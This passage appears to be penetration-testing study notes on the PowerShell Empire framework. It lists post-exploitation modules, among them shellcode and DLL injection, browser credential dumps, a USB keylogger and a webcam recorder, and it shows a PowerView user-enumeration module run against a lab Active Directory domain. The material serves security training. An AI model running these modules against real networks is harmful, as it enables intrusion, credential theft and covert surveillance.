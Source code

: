 ```bash
(Empire: S2Y5XW1L) > usemodule
Display all 204 possibilities? (y or n)
code_execution/invoke_dllinjection
code_execution/invoke_metasploitpayload
code_execution/invoke_ntsd
code_execution/invoke_reflectivepeinjection
code_execution/invoke_shellcode
code_execution/invoke_shellcodemsil
collection/ChromeDump
collection/FoxDump
collection/USBKeylogger*
collection/WebcamRecorder
collection/browser_data
...
```

Most important categories are:

- `situational_awareness/`: there are many methods and commands for performing **network enumeration**, but the primary focus of this category is on **local client** and **Active Directory enumeration** (under the `PowerView` directory).
    
    ```bash
    (Empire:2Y5XW1L) > usemodule situational_awareness/network/powerview/get_user
    (powershell/situational_awareness/network/powerview/get_user) > info
    Name: Get-DomainUser
    Module: powershell/situational_awareness/network/powerview/get_user
    NeedsAdmin: False
    OpsecSafe: True
    Language: powershell
    MinLanguageVersion: 2
    Background: True
    OutputExtension: None
    Agent True S2Y5XW1L Agent to run module on.
    ...
    
    > (powershell/situational_awareness/network/powerview/get_user) > execute
    Job started: LP1URA
    ...
    distinguishedname : CN=Jeff_Admin,OU=Admins,OU=CorpUsers,DC=corp,DC=com
    objectclass : {top, person, organizationalPerson, user}
    displayname : Jeff_Admin
    lastlogontimestamp : 2/19/2019 8:15:57 PM
    userprincipalname : jeff_admin@corp.com
    name : Jeff_Admin
    objectsid : S-1-5-21-3048852426-3234707088-723452474-1104
    samaccountname : jeff_admin
    admincount : 1
    codepage : 0
    samaccounttype : USER_OBJECT
    accountexpires : NEVER
    ...
    ```
    
